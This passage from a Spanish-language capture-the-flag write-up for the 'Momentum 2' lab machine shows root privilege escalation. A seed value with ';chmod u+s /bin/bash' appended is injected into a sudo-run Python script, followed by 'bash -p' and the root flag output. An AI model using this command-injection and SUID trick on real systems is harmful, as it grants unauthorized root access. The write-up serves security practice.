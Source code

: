 Pero miramos que al final del codigo tenemos un parametro subprocess, por lo que podemos ejecutar el programa y pasarle la seed, luego filtrarle con un ";" un comando de shell.

```bash
sudo python3 /home/team-tasks/cookie-gen.py
```

Y le pasamos la seed y el comando que queremos filtra en el input, quedaria asi:
```bash
mhil4ne;chmod u+s /bin/bash
``` 
ahora solo nos pasamos a la bash, con el parametro -p
```bash
bash -p
```
Con esto ya tenemos acesso como root a la maquina victima, ubicamos la flag root en el directorio /root. 
```bash
cat root.txt
//                    \\
}  Rooted - Momentum 2 {
\\                    //

---------------------------------------------------
FLAG : 4bRQL7jaiFqK45dVjC2XP4TzfKizgGHTMYJfSrPEkezG
---------------------------------------------------
```
